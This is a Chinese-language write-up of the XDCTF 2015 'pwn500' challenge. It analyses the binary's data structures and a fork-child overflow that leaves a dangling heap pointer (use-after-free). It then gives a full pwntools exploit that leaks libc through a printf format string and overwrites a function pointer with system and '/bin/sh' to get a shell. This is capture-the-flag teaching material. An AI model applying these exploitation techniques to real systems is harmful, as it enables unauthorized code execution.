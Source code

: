 ```yaml
---  
layout: post  
title: "xdctf_pwn500"  
date: 2015-10-06 14:27:24 +0800  
comments: true  
categories:   
---  
```

###0x00 分析
分析程序得如下数据结构
	name_desp
	{
		name[17];	0
		desp[200];	18
		math;		224
		english;	232
		dota;		240
	}

	item
	{
		int opt;	0
		int real_len;	4
		int want;	8
		int context_ptr;16
		func_p;		24
	}
子程序

	do
	i += input((__int64)&s[i], a2 - i);
	while ( i != a2 );
		fputs(s, stream);
	return 0LL;

fork的子程序栈溢出，返回的文件失败
,导致real_len为0

	if ( *(_DWORD *)(ptr_item + 4) )
	  {
	    *(_QWORD *)(ptr_item + 16) = 0LL;
	    *(_DWORD *)(ptr_item + 4) = 0;
	  }
	  puts("OK, you could take the exam again\n");

resit时当real_len为0时，堆上的指针不清零,导致UAF

###0x01 利用
先exam一个，让子程序溢出，得到real_len为0，
再exam一个与item同样大小的chunk，通过1024选项覆写
先利用printf格式化字符串漏洞泄漏libc
再把/bin/sh和system的地址写上去


###0x02 exp

	from binascii import *  
	from pwn import *  
	  
	r = process('./jwc')  
	#r = remote('192.168.56.101', 6666)  
	  
	def opt(n):  
		print r.recvuntil('exit')  
		r.sendline(n)  
	  
	opt('1')	#register	  
	print r.recvuntil('chars')  
	r.sendline('namname')  
	print r.recvuntil('self')  
	r.sendline('despppppppppppp')  
	  
	  
	opt('2')	#exam	math  
	print r.recvuntil('dota')  
	r.sendline('1')  
	print r.recvuntil('?')  
	r.sendline('104')  
	print r.recvuntil('OK')  
	r.sendline('c'*104)  
	  
	  
	opt('5')	#resit  
	print r.recvuntil('dota')  
	r.sendline('1')  
	  
	opt('2')	#exam	math  
	print r.recvuntil('dota')  
	r.sendline('2')  
	print r.recvuntil('?')  
	r.sendline('4')  
	print r.recvuntil('OK')  
	r.sendline('abcd')  
	  
	printf_plt = 0x4009B0  
	puts_got = 0x0602330  
	  
	libc = ELF('/usr/lib/libc.so.6')  
	system_l = libc.symbols['system']  
	__libc_start_main_l = libc.symbols['__libc_start_main']  
	  
	  
	opt('1024')	#secret  
	print r.recvuntil(':)')  
	r.sendline('1')  
	payload  = ''  
	payload += '%11$pccc'  
	payload += 'aaaaaaaa'  
	payload += 'aaaaaaaa'  
	payload += p64(printf_plt)  
	r.sendline(payload)  
	  
	  
	opt('3')	#leak  
	print r.recvuntil('math: 0')  
	recv_data = r.recvuntil('en')  
	print (recv_data)  
	  
	__libc_start_main_r = int((recv_data)[1:15],16)-240  
	system_r = system_l - __libc_start_main_l + __libc_start_main_r  
	log.info('__libc_start_main_r'+hex(__libc_start_main_r))  
	log.info('__libc_start_main_l'+hex(__libc_start_main_l))  
	log.info('system_l'+hex(system_l) )  
	log.info('system_r'+hex(system_r) )  
	  
	opt('1024')	#secret  
	print r.recvuntil(':)')  
	r.sendline('1')  
	payload  = ''  
	payload += '/bin/sh\x00'  
	payload += 'aaaaaaaa'  
	payload += 'aaaaaaaa'  
	payload += p64(system_r)  
	r.sendline(payload)  
	  
	opt('3')	#shell  
	r.interactive()  


###0x03 misc
wait（）会暂时停止目前进程的执行，直到有信号来到或子进程结
束。如果在调用wait（）时子进程已经结束，则wait（）会立即返
回子进程结束状态值。子进程的结束状态值会由参数status 返回a

gdb
set follow-fork-mode 调试父进程，子进程不收影响
